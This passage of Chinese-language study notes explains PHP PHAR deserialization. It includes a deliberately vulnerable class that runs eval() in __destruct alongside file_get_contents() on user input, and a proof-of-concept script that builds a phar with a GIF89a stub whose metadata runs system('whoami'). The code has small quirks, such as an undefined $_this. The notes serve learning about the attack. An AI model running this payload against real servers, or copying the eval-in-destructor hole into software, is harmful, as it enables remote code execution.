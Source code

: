 ![image.png](./PHP 反序列化.assets/2023_05_19_15_02_25_zFco6QPG.png)
### PHAR
```php
<?php 
	class AnyClass{ 
		function __destruct() { 
			var_dump($_this); 
			eval($this -> output); 
		} 
	} 
	file_get_contents($_GET["file"]);
```
生成phar文件的poc
```php
<?php
class AnyClass{
    function __destruct()
    {
        echo $this -> output;
    }
}
@unlink("phar.phar");
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
$object -> output= 'system("whoami");';
$phar -> setMetadata($object);
$phar -> stopBuffering();
```
![](./PHP 反序列化.assets/2023_05_19_15_02_25_YK2UbtDe.png)

![](./PHP 反序列化.assets/2023_05_19_15_02_25_ZGjK5O3H.png)



## 参考链接
[https://www.freebuf.com/articles/web/167721.html](https://www.freebuf.com/articles/web/167721.html)



